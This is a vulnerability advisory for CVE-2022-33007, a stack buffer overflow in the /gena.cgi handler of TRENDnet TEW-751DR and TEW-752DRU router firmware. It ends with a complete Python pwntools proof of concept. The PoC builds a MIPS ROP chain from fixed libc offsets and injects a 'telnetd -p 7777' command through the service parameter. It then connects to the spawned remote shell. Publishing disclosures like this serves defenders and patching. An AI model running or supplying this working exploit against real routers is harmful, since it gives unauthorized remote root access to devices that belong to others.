 Vendor of the products:TRENDnet

Reported by: 　　　WangJincheng && FeiXincheng from X1cT34m

Affected products: TRENDnet TEW751DR <= v1.03 , TRENDnet TEW-752DRU <= v1.03

Vendor Homepage:  https://www.trendnet.com/

Vendor Advisory:  https://www.trendnet.com/support/support-detail.asp?prod=165_TEW-751DR , 
                  https://www.trendnet.com/support/support-detail.asp?prod=170_TEW-752DRU

CVE_ID:CVE-2022-33007

# summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `TrendNet` Wi-Fi router firmware `TEW751DR` `TEW-752DRU` . In the `genacgi_main` function of the `cgibin` program, the `sprintf` method directly uses the service parameter from `/gena.cgi`. The attackers can construct a payload to carry out arbitrary code attacks.

# vulnerability description

There is a `stack overflow` vulnerability in the `genacgi_main` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/1.png)

It calls the `sub_40EC1C` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/2.png)

However, in the `sub_40EC1C` function, it calls the `sprintf` function from `a1` to `v23` without any security check, which causes the stack overflow.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)


# poc

	# python3
	from pwn import *
	from socket import *
	from os import *
	from time import *
	context(os = 'linux', arch = 'mips')
	
	libc_base = 0x2aaf8000
	
	s = socket(AF_INET, SOCK_STREAM)
	
	cmd = b'telnetd -p 7777;'
	payload = b'a'*462
	payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
	payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
	payload += b'a'*4 # s2
	payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
	payload += b'a'*0x18 # padding
	payload += cmd
	
	msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
	msg += b"Host: localhost:49152\r\n"
	msg += b"SID: 1\r\n\r\n"
	
	s.connect((gethostbyname("192.168.10.1"), 49152))
	s.send(msg)
		
	sleep(1)
	system("telnet 192.168.10.1 7777")


![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/shell.png?raw=true)
